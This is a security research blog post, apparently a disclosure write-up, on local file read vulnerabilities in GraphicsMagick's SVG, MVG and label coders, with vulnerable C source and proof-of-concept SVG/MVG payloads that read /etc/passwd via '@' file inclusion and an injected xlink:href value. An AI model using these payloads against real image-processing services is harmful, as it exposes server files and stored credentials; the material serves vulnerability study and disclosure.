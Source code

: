 # Security of Data processing libraries Part 2


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Tragick

[ImageTragick](https://imagetragick.com/) - multiple vulnerabilities in ImageMagick. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. GraphicsMagick library successfully fixed RCE but what about another vulnerabilities? Let's take a look on exploit.svg used at CVE-2016-3717 and try to convert it with library.

```bash
gm convert exploit.svg output.png
```

```text
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Library will return error `Unable to open file` but what if we will change exploit to use another coder `label`? 

```bash
gm convert label:@/etc/passwd output.png
```

GraphicsMagick returns first line of file: `root:0:0:0:root:/root:/bin/bash`. So vulnerability exists and can be exploited on some coders. Let's take a look on Translate Text function. It have an interesting behavior: If text starts with '@' then try to replace it with the content of the file name which follows. 

```c
char *AmpersandTranslateText(const ImageInfo *image_info,
		Image *image, const char *formatted_text) {
/*
	If text starts with '@' then try to replace it with 
	the content of the file name which follows.
*/
  if ((*formatted_text == '@') && IsAccessible(formatted_text+1))
    {
      text=(char *) FileToBlob(formatted_text+1,&length,&image->exception);
      if (text == (char *) NULL)
        return((char *) NULL);
      TrimStringNewLine(text,length);
    }
  translated_text=TranslateText(image_info,image,text);
  if (text != (char *) formatted_text)
    MagickFreeMemory(text);

  return translated_text;
}
```

To exploit it malicious user shoud find all coders using it. Here we should take a little step back and return to Metadata. Please read [first part](https://d0ge.github.io/data-processing-libraries-part-two/). Translate function requests in attribute text when the blob is not open. This is really gross since it is assumed that the attribute is supplied by the user and the user intends for translation to occur.  However, 'comment' and 'label' attributes may also come from an image file and may contain arbitrary text.  As a crude-workaround, translations are only performed when the blob is not open. Is it secure to check blob state? It was found that SVG coder can be used to exploit it. We will skip a lot of C code and let's take a look on pseudocode:
- XML Parser end work
- CloseBlob(image) 
- MVG delegate start it work
- function SetImageAttribute(image,"comment",svg_info.comment) writes comment и title attributes to image.
- To exploit vulnerability malicious user should convert SVG to GIF, JPEG thumbnails with metadata information.

### Arbitary file read on image metadata
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```

Another interesting coder is MVG and image processing function

```c
case 'i':
{
if (LocaleCompare((char *) name,"image") == 0)
  {
  MVGPrintf(svg_info->file,"image Copy %g,%g %g,%g '%s'\n",
          svg_info->bounds.x,svg_info->bounds.y,svg_info->bounds.width,
          svg_info->bounds.height,svg_info->url);
  MVGPrintf(svg_info-&gt;file,"pop graphic-context\n");
  break;
  }
break;
}
```
What if malicious user can inject custom TextPrimitive inside ImagePrimitive at MVG coder. Let's take a look on SVG coder. When it reads `xlink:href` attribute single qout  `'` is not properly escaped and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file. 
Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

### Arbitary file read on SVG coder

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```


# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

